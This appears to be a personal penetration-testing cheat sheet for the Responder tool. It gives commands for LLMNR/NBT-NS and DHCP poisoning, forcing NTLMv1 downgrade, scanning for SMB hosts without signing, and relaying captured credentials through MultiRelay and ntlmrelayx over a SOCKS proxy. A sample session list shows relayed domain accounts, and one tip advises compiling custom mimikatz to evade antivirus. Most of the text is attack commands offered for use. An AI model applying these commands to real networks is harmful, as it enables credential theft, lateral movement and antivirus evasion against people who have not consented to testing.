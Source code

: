 ```yaml
---
title: Responder
updated: 2023-02-01 06:47:48Z
created: 2023-02-01 02:29:00Z
---
```


# Source: 

https://github.com/lgandx/Responder

# Tools in Responder: 

Location: /usr/share/Responder/tools

# Make changes to config to turn off services:

`nano /usr/share/responder/Responder.conf`

# Configuring MultiRelay: 
In Kali Linux: 
1. pip install pycryptodome
2. Install Mingw and create multi relay binaries:
```
sudo apt-get install gcc-mingw-w64-x86-64
sudo x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv
sudo x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode
```
4. python3 MultiRelay.py
```
Usage: 
responder-MultiRelay -t 10.20.30.40 -u Administrator lgandx admin
responder-MultiRelay -t 10.20.30.40 -u ALL

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -t 10.20.30.45        Target server for SMB relay.
  -p 8081               Additional port to listen on, this will relay for
                        proxy, http and webdav incoming packets.
  -u, --UserToRelay     Users to relay. Use '-u ALL' to relay all users.
  -c whoami, --command=whoami
                        Single command to run (scripting)
  -d, --dump            Dump hashes (scripting)
```


# Starting Responder:

- responder -I [Interface] -A
- responder -I [Interface] -i [IP Address] or -e [External IP] -A

## Starting Responder in Basic Authentication Mode
- responder -I [Interface] -wdF -b

## Force NTLM Authentication to version 1 instead of version 2:
- responder -I [Interface] -wdF --lm --disable-ess

## External IP Poisoning
- responder -I [Interface] -e 172.21.1.2

## DNS Injection in DHCP Responses
- responder -i [interface] -D

# Using Responder-RunFinger to verify if SMB Signing is not enabled

- responder-RunFinger -i 172.21.0.0/24
- python3 RunFinger.py -i 172.21.0.0/24

# Using Responder-MultiRelay
Tips:
Multirelay uses the default version of mimikatz and it can easily flagged by AV. It is recommend to compile your own custom version and use it with mutlirelay.
Do not run multirelay against targets that have smb message_signing enabled:

- responder-Multirelay -t 172.21.0.0 - u ALL
- python3 Multirelay.py -t 172.21.0.0 -u ALL

# Using Responder with Impacket-Ntlmrelayx
NtlmRelayX is an impacket script that allows you to conduct NTLM Relay Attacks, by creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.).

1. When you are using responder to capture challenges and relay them to ntlmrelayx you will need to turn off HTTP and SMB in the responder.conf file. Also have a list of what systems are running smb and have smb signing disabled.

2. Set up a socks proxy on port 1080. This socks proxy will successfully relay the traffic to ntlmrelayx. 
- sudo nano /etc/proxychains4.conf
```
[ProxyList]
# NtlmRelayX Socks Proxy
socks4 127.0.0.1 1080
# Other Proxies
```
3. Run Responder and NtlmRelayX to watch the magic happen:
- sudo Responder -I [Interface]
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt
- ntlmrelayx.py -socks -smb2support -tf smb-targets.txt

To view a full list of captured sessions from NtlmRelayX
```
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       172.21.48.38   SPAWN/MSIMMONS            445
SMB       172.21.48.230  FAERIE/ADMINISTRATOR      445
SMB       172.21.48.230  FAERIE/ALSIMMONS          445
```

# References: 

- https://github.com/lgandx/Responder


